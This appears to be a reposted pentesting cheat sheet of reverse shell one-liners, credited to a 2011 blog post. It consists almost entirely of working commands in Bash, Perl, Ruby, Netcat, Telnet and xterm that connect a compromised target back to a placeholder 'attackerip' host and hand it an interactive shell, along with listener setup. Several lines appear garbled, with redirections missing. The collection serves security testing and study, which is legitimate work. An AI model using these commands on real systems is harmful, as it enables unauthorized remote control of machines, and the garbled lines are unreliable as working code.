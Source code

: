 From [Bernardo Dag](https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html) / https://bernardodamele.blogspot.com/2011/09/reverse-shells-one-liners.html

# Reverse shells one-liners
Inspired by the great blog post by pentestmonkey.net, I put together the following extra methods and alternatives for some methods explained in the cheat sheet. There is nothing cutting edge, however you may find this handy during your penetration tests.

Citing pentestmonkey's blog post:
If you’re lucky enough to find a command execution vulnerability during a penetration test, pretty soon afterwards you’ll probably want an interactive shell.
[...] **your next step is likely to be either throwing back a reverse shell** or binding a shell to a TCP port.
Your options for creating a reverse shell are limited by the scripting languages installed on the target system – though you could probably upload a binary program too if you’re suitably well prepared.


💡💡💡  First of all, on your machine, set up a listener, where **`attackerip`** is your IP address and **`4444`** is an arbitrary TCP port unfiltered by the target's firewall:
```bash
nc -lv attackerip 4444
```

## Bash
Alternatives for **Bash** shell:
```bash
exec /bin/bash 0&0 2>&0
```
Or:
```bash
0<&196;exec 196<>/dev/tcp/attackerip/4444; sh <&196 >&196 2>&196
```
Or:
```bash
exec 5<>/dev/tcp/attackerip/4444
cat <&5 | while read line; do $line 2>&5 >&5; done  # or:
while read line 0<&5; do $line 2>&5 >&5; done
```
See also [Reverse Shell With Bash](http://www.gnucitizen.org/blog/reverse-shell-with-bash/) / http://www.gnucitizen.org/blog/reverse-shell-with-bash/ from GNUCITIZEN blog.

## Perl

Shorter **Perl** reverse shell that does not depend on `/bin/sh`:
```bash
perl -MIO -e '$p=fork;exit,if($p);$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```
*If the target system is running Windows use the following one-liner:*
```bash
perl -MIO -e '$c=new IO::Socket::INET(PeerAddr,"attackerip:4444");STDIN->fdopen($c,r);$~->fdopen($c,w);system$_ while<>;'
```

## Ruby
Longer **Ruby** reverse shell that does not depend on `/bin/sh`:
```bash
ruby -rsocket -e 'exit if fork;c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```
If the target system is running Windows use the following one-liner:
```bash
ruby -rsocket -e 'c=TCPSocket.new("attackerip","4444");while(cmd=c.gets);IO.popen(cmd,"r"){|io|c.print io.read}end'
```

## Netcat

Others possible **Netcat** reverse shells, depending on the Netcat version and compilation flags:
```bash
nc -c /bin/sh attackerip 4444
```
Or:
```bash
/bin/sh | nc attackerip 4444
```
Or:
```bash
rm -f /tmp/p; mknod /tmp/p p && nc attackerip 4444 0/tmp/p
```
See also [7 Linux Shells Using Built-in Tools](http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/) / http://lanmaster53.com/2011/05/7-linux-shells-using-built-in-tools/ from LaNMaSteR53 blog.

## Telnet

Of course, you can also use **Telnet** as an alternative for Netcat:
```bash
rm -f /tmp/p; mknod /tmp/p p && telnet attackerip 4444 0/tmp/p
```
Or:
```bash
telnet attackerip 4444 | /bin/bash | telnet attackerip 4445   #⚠️ Remember to listen on your machine also on port 4445/tcp
```

## xterm
Follows further details on **xterm** reverse shell:

To catch incoming xterm, start an open X Server on your system (:1 - which listens on TCP port 6001). One way to do this is with [Xnest](http://www.xfree86.org/4.4.0/Xnest.1.html) / http://www.xfree86.org/4.4.0/Xnest.1.html:
```bash
Xnest :1
```
⚠️ Then remember to authorise on your system the target IP to connect to you:
```bash
xterm -display 127.0.0.1:1  # Run this OUTSIDE the Xnest
xhost +targetip             # Run this INSIDE the spawned xterm on the open X Server
```
Then on the target, assuming that `xterm` is installed, connect back to the open X Server on your system:
```bash
xterm -display attackerip:1
```
Or:
```bash
$ DISPLAY=attackerip:0 xterm
```
It will try to connect back to you, `attackerip`, on TCP port `6001`.

Note that on Solaris xterm path is usually not within the `PATH` environment variable, you need to specify its filepath:
```bash
/usr/openwin/bin/xterm -display attackerip:1
```
